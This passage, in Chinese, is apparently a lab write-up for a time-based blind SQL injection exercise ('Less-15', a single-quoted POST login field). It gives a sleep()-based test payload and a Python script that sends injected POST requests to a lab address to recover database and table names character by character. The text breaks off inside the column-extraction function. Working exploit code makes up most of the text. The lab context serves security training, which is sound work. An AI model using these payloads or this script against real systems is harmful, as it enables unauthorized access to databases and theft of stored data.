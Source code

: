 

## 实验十五	基于bool型/时间延迟单引号POST型盲注

把之前提到过的常见的payload都试了一遍发现都没有回显，猜测可能存在盲注，尝试

```
admin'and if(ascii(substr(database(),1,1))=114,1,sleep(5))#
```

存在明显延迟，说明存在时间盲注。

下面是时间盲注的脚本：

```python
import requests
from time import time

url = "http://10.12.202.251:22699/Less-15/"
char = "abcdefghijklmnopqrstuvwxyz_"
password = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_-@!"


def database():
    for i in range(0, 10):
        database = ""
        for j in range(1, 20):
            for str in password:
                time1 = time()
                data = {
                    'uname': "admin' and If((mid((select schema_name from information_schema.schemata limit %d,1),%d,1))='%s',sleep(0.1),1)#" % (i, j, str), 'passwd': "1"}
                res = requests.post(url, data=data)

                time2 = time()

                if time2 - time1 > 0.1:
                    database += str
                    break
        print("the %d database: " % (i + 1))
        print(database)


def table():
    for i in range(0, 10):
        table = ""
        for j in range(1, 20):
            for str in char:
                time1 = time()
                data = {
                    'uname': "admin' and If((mid((select table_name from information_schema.tables where table_schema='security' limit %d,1),%d,1))='%s',sleep(0.1),1)#" % (i, j, str), 'passwd': "1"}
                res = requests.post(url, data=data)

                time2 = time()

                if time2 - time1 > 0.1:
                    table += str
                    break
        print("the %d table: " % (i + 1))
        print(table)


def column():
    for i in range(0, 10):
        column = ""
```